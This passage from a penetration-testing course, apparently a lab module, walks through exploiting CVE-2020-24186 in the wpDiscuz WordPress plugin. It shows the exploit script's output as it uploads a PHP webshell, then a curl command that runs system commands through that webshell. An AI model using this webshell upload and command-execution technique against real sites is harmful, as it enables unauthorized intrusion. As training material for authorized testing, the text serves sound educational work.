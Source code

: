 The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

Attacking WordPress

```shell-session
swmpdnky@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```

The exploit as written may fail, but we can use `cURL` to execute commands using the uploaded web shell. We just need to append `?cmd=` after the `.php` extension to run commands which we can see in the exploit script.

Attacking WordPress

```shell-session
swmpdnky@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

In this example, we would want to make sure to clean up the `uthsdkbywoxeebg-1629904090.8191.php` file and once again list it as a testing artifact in the appendices of our report.

---

## Moving On

As we have seen from the last two sections, WordPress presents a vast attack surface. During our careers as penetration testers, we will almost definitely encounter WordPress many times. We must have the skills to quickly footprint a WordPress installation and perform thorough manual and tool-based enumeration to uncover high-risk misconfigurations and vulnerabilities. If these sections on WordPress were interesting, check out the [Attacking WordPress module](https://academy.hackthebox.com/course/preview/hacking-wordpress) for more practice.